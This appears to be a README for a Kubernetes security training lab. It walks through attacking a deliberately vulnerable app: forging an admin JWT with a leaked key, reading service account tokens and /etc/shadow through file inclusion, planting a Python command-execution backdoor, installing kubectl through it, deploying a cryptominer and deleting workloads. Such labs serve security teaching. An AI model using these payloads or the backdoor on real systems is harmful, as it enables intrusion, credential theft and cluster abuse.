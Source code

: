 # Exploit Application Vulnerabilities


Application vulnerabilities can bring wide range of different entrypoints. In addition to Kubernetes-specific vulnerabilities and misconfigurations, this can lead to various beautiful attacks.



## Attack
- get the `SECRET_KEY`:
  - either find the [leaked value](http://rus-vote.seck8s.slurm.io/clusters/local/namespaces/vulnapp/deployments/images-api) in the exposed unprotected Dashboard
  - or check the Git-blame to find the hard-coded secret in sources *vulnerability: [hard-coded credentials](https://owasp.org/www-community/vulnerabilities/Use_of_hard-coded_password)*
- register a test user in `auth-api`, get the JWT (with `user_role='user'`)
- proceed to `images-api` with the JWT token, see the image (partially logged in)
- decode the JWT token using the leaked secret key and modify `user_role='admin'` (*vulnerability: [Broken User Authentication](https://owasp.org/www-project-top-ten/2017/A2_2017-Broken_Authentication)*)
- proceed to `images-api` with the new token, see the admin page
- read some files: `/var/run/secrets/kubernetes.io/serviceaccount/token`, `./app.py`, `/etc/shadow`, `/proc/1/environ`, etc.: (*vulnerability: [LFI, Local File Inclusion](https://owasp.org/www-project-web-security-testing-guide/v41/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion)*)
- write the `./app.py` with backdoor activated via GET parameter `cmd` ([Unrestricted File Upload](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload))
    ```python
    ...
    @app.route("/", methods=["GET"])
    def home():
        cmd = request.args.get('cmd')
        if cmd:
            import subprocess
            p = subprocess.run(["bash", "-c", cmd], stderr=subprocess.STDOUT, stdout=subprocess.PIPE)
            return p.stdout.decode()
        ...
    ```
- since the server is in Debug mode, it auto-reloads without restarting the pod
- use the backdoor to install `kubectl`:
  - `?cmd=apt-get+update`
  - `?cmd=apt-get+-y+install+curl`
  - Next, from https://kubernetes.io/docs/tasks/tools/install-kubectl-linux/:
  - `?cmd=curl%20-LO%20%22https://dl.k8s.io/release/$(curl%20-L%20-s%20https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl%22`
  - `?cmd=install%20-o%20root%20-g%20root%20-m%200755%20kubectl%20/usr/local/bin/kubectl`
  - `?cmd=kubectl+get+all`
- now you can use kubectl configured to the workload's service account (deploy a miner): `?cmd=kubectl+apply+-f+images/monero-deployment.yaml`
- or shut down the cluster's payload (Deployment only, permitted by RBAC): `?cmd=kubectl+delete+deployment+auth-api`

> Note: inside the pod, kubectl is authenticated to the pod's SA. However, you could save SA's `token` and `ca.crt` to your local machine and, knowing the Kube API public URI, you can acess it remotely:
> ```kubectl --server=https://kubernetes.default.svc --certificate-authority=/var/run/secrets/kubernetes.io/serviceaccount/ca.crt --token=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token) <command>```


## Steps to reproduce

1. Deploy [vulnerable-app](vulnerable-app) (both `auth-api` and `images-api`)
2. Go to [auth service](http://auth.vulnapp.seck8s.slurm.io/)
3. Sign-up any user and login
4. Get redirection to the [image service](https://images.vulnapp.seck8s.slurm.io/) with the greatest cat in the world :)
5. Decode JWT token and try to get more privileges
6. Write any interesting file (take a look at the image b64 data you'll receive)
7. Upload any interesting file (note: the container runs as root so you're relatively free)
8. Get working `kubectl` for the cluster
